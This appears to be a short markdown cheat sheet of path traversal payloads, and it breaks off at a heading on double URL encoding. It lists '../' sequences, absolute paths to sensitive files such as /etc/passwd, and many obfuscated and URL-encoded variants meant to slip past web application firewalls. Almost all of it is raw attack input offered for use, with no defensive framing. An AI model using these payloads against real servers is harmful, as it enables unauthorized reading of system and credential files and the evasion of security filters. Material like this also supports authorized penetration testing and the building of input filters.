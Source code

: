 ## Path Traversal Techniques

### Basic Directory Traversal

```
../
../ (multiple)
../../../
....//....//....//
```

### Absolute Paths (when directory traversal is filtered)

```
/etc/passwd
/var/www/html/index.php
C:\Windows\System32\drivers\etc\hosts
```

## WAF Bypass Techniques

### 1. Path & Slash Obfuscation

```
..././
...\.\
.././
./././
..//..//
..////
..\..\
..%252f..%252f
%2e%2e%2f
%2e%2e/
..%c0%af
%5c../
..\
..%255c
```

### 2. Encoding Techniques

#### URL Encoding

```
%2e%2e%2f = ../
%2e%2e/ = ../
%2f = /
%5c = \
```

#### Double URL Encoding
